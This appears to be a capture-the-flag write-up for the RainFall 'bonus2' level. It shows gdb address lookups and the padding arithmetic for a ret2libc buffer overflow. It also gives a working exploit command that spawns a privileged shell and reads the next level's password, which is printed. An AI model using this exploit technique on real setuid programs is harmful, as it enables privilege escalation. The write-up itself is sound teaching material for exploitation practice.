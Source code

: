 # bonus2

## Header

```bash
ssh bonus2@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```

<hr>

## Solution

From the [source](./source.c) we can understand that there is a `buffer overflow` vulnerability in the `greetuser` function. <br>
In the `main` the buffer of 76 bytes is created and filled with 72 symbols. <br>
Because the internal buffer in `greetuser` function is filled with the buffer of 72 bytes passed from `main` and the fact
the internal buffer is 'pre-filled' with `Hello ` or `Goedemiddag! ` or `Hyvää päivää ` this buffer can be overflowed by 6, 13 and 18 bytes respectively. <br>

```bash
(gdb) info proc map
process 31793
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/bonus2/bonus2
         0x8049000  0x804a000     0x1000        0x0 /home/user/bonus2/bonus2
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh" 
0xb7f8cc58
1 pattern found.
(gdb) p system
$2 = {<text variable, no debug info>} 0xb7e6b060 <system>
```


To overwrite return address we need to pass the array of this length:
```
72 (greetuser array size, bytes) - greetuser message length, bytes
```

If we're going to perform `ret2libc` we MUST set `LANG` to `fi` because the other options won't give us necessary amount of bytes to overwrite the target data:
```
"Hyvää päivää " - 18 bytes
"Goedemiddag! " - 13 bytes
"Hello "        - 6 bytes

To perform ret2libc we need 16 bytes: 4 to overwrite saved ebp, 4 for ret address (system), 4 to overwrite greetuser arg, and 4 to set arg /bin/sh for system

We need to create padding of 72 - 18 = 54 + 4 bytes of saved ebp = 58 bytes followed by our payload.
As we passing array data in two arguments, we split 58 bytes padding to 40 and 18.
```

Now we have all the parts to exploit:
```bash
bonus2@RainFall:~$ LANG=fi ./bonus2 $(python -c 'print "X" * 40') $(python -c 'print "X" * 18 + "\xb7\xe6\xb0\x60"[::-1] + "XXXX" + "\xb7\xf8\xcc\x58"[::-1]')
Hyvää päivää XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`��XXXXX���
$ pwd
/home/user/bonus2
$ id         
uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
$ cd ../bonus3
$ ls -la
total 17
dr-xr-x---+ 1 bonus3 bonus3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus3 bonus3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus3 bonus3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus3 bonus3   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus3 bonus3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 end    users  5595 Mar  6  2016 bonus3
$ cat .pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## References
- [ret2libc](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/)

